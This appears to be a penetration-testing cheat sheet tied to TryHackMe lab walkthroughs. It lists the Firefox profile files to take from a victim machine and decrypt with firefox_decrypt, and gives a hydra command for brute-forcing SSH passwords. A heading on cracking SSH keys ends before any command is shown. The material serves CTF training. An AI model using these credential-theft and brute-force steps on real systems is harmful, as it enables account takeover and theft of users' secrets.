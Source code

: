 ### **Credentials from Firefox**

&#x20;**Examples**

[gatekeeper.md](../../walkthroughs/tryhackme/gatekeeper.md "mention")

From the victims machine. Transfer the following files back to Kali

**Victim**

```
logins.json
key4.db 
cert9.db 
cookies.sqlite
```

**Kali**

```
git clone https://github.com/unode/firefox_decrypt.git
python3.9 firefox_decrypt.py ./
```



## **SSH**

### Brute force SSH

#### Examples

[hydra.md](../../walkthroughs/tryhackme/hydra.md "mention")[brooklyn-nine-nine.md](../../walkthroughs/tryhackme/brooklyn-nine-nine.md "mention")[gamingserver.md](../../walkthroughs/tryhackme/gamingserver.md "mention")[fowsniff-ctf.md](../../walkthroughs/tryhackme/fowsniff-ctf.md "mention")[jack-of-all-trades.md](../../walkthroughs/tryhackme/jack-of-all-trades.md "mention")[library.md](../../walkthroughs/tryhackme/library.md "mention")

**Kali**

```
hydra -l $USERNAME -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM -t 4 ssh
```

### Cracking SSH Keys

#### Examples

[john-the-ripper.md](../../walkthroughs/tryhackme/john-the-ripper.md "mention")[brute-it.md](../../walkthroughs/tryhackme/brute-it.md "mention")[gamingserver.md](../../walkthroughs/tryhackme/gamingserver.md "mention")[mustacchio.md](../../walkthroughs/tryhackme/mustacchio.md "mention")[overpass.md](../../walkthroughs/tryhackme/overpass.md "mention")[0day.md](../../walkthroughs/tryhackme/0day.md "mention")[annie.md](../../walkthroughs/tryhackme/annie.md "mention")[vulnnet.md](../../walkthroughs/tryhackme/vulnnet.md "mention")

**Kali**
